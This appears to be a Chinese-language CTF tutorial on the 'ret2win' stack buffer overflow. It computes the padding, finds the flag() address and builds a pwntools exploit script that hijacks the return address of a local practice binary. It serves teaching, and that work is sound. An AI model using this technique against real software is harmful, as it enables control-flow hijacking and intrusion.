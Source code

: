 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

<Warning>
  当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
</Warning>

LINK

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault` 消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

<Note>
  除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保 `溢出 Padding` 正确。
</Note>

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

<Note>
  `i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
</Note>

可以看到这里的 `flag()` 函数位于 `0x080491c3`。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码`。所以解决方案很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为十六进制。

```python
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

<Tip>
  使用 `xxd` 可以以二进制或十六进制显示文件的内容：

  $ echo '\x41\x41\x41\x41' | xxd<br />
  00000000: 4141 4141 0a        AAAA.

  $ echo 'AAAA' | xxd<br />
  00000000: 4141 4141 0a        AAAA.
</Tip>

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件交互，编写漏洞利用脚本。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited`。为什么？我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408`，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg` 中使用这条指令。

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!`：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须将溢出 Padding 设置为字节字符串：

```python
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

